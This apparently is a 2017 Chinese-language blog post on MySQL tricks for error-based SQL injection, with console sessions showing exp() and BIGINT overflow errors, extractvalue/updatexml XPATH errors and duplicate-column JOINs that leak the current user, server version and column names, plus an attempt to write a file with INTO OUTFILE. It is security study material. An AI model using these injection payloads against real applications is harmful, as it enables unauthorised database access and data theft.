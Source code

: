 ```yaml
---
layout: post

title: "Mysql一些有趣的用法"
date: 2017-03-06 15:06:23 +0800

categories: post
tags: [mysql, sql注入, 网络安全]
---
```


查看BIGIN最大值以及数据溢出

```shell
mysql> select ~0;
+----------------------+
| ~0                   |
+----------------------+
| 18446744073709551615 |
+----------------------+
1 row in set (0.00 sec)

mysql> select ~0+1;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(~(0) + 1)'
mysql>
```
> 在mysql **5.5** 之前，整形溢出是不会报错的

查看用户,以及查询返回值逻辑运算

```shell
mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)

mysql> select * from (select user()) x;
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)

mysql> select (select * from (select user()) x);
+-----------------------------------+
| (select * from (select user()) x) |
+-----------------------------------+
| root@localhost                    |
+-----------------------------------+
1 row in set (0.00 sec)

mysql> select !(select * from (select user()) x);
+------------------------------------+
| !(select * from (select user()) x) |
+------------------------------------+
|                                  1 |
+------------------------------------+
1 row in set (0.00 sec)

mysql> select !(select * from (select user()) x) + 1;
+----------------------------------------+
| !(select * from (select user()) x) + 1 |
+----------------------------------------+
|                                      2 |
+----------------------------------------+
1 row in set (0.00 sec)

mysql>
```

使用 [exp](http://www.w3resource.com/mysql/mathematical-functions/mysql-exp-function.php) 精度溢出

```shell
mysql> select exp(709);
+-----------------------+
| exp(709)              |
+-----------------------+
| 8.218407461554972e307 |
+-----------------------+
1 row in set (0.00 sec)

mysql> select exp(710);
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(710)'
mysql>
```
> MySQL [EXP()](http://www.w3resource.com/mysql/mathematical-functions/mysql-exp-function.php) returns the value of the base of natural logarithm number e, raised to the power of a number specified as argument.

SQL注入:

```shell
mysql> select exp(~(select * from (select user()) x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select `x`.`user()` from (select user() AS `user()`) `x`)))'
```
等同于
```shell
mysql> select exp(~1);
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~(1))'
```

```shell
mysql> select (select (!x-~0) from (select (select user()) x) a);
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not(`a`.`x`)) - ~(0))'
```
> 在mysql **5.5.47** 可以在报错中返回查询结果,而在mysql **>5.5.53** 时，则不能返回查询结果

查看mysql 版本

```sell
mysql> select @@version;
+-------------------------+
| @@version               |
+-------------------------+
| 5.7.17-0ubuntu0.16.10.1 |
+-------------------------+
1 row in set (0.00 sec)

mysql> select NAME_CONST(version(),1);
+-------------------------+
| 5.7.17-0ubuntu0.16.10.1 |
+-------------------------+
|                       1 |
+-------------------------+
1 row in set (0.00 sec)

mysql>
```
xpath语法错误,暴露查询信息

```shell
mysql> select extractvalue(1, (select @@version));
ERROR 1105 (HY000): XPATH syntax error: '.17-0ubuntu0.16.10.1'
mysql> select extractvalue(1,concat(0x7e,(select @@version),0x7e));
ERROR 1105 (HY000): XPATH syntax error: '~5.7.17-0ubuntu0.16.10.1~'
mysql> select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
ERROR 1105 (HY000): XPATH syntax error: '~5.7.17-0ubuntu0.16.10.1~'
mysql>
```
> MySQL [CONCAT()](http://www.w3resource.com/mysql/string-functions/mysql-concat-function.php)  function is used to add two or more strings.

```shell
mysql> select rand(0);
+---------------------+
| rand(0)             |
+---------------------+
| 0.15522042769493574 |
+---------------------+
1 row in set (0.00 sec)

mysql> select floor(rand(0)*2);
+------------------+
| floor(rand(0)*2) |
+------------------+
|                0 |
+------------------+
1 row in set (0.00 sec)

mysql>
```
> rand(0)是个稳定的序列, floor(rand(0)\*2)则会固定得到011011...的序列

表重复+JOIN 爆列名

```shell
mysql> select * from (select * from information_schema.tables a join information_schema.tables b) c;
ERROR 1060 (42S21): Duplicate column name 'TABLE_CATALOG'
mysql>
```

> 本文来自: [\[Web安全\]MYSQL报错注入的一点总结](https://xianzhi.aliyun.com/forum/read/762.html)

---

使用exp创建文件,但是(高版本mysql)必须进行安全配置 [^1]

```shell
mysql> select exp(~(select * from(select 'hello') x)) into outfile '/tmp/exp.txt';
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
mysql>
```
---
[^1]: [How to create/write a file using exp() in mySQL](http://stackoverflow.com/questions/37184480/how-to-create-write-a-file-using-exp-in-mysql)
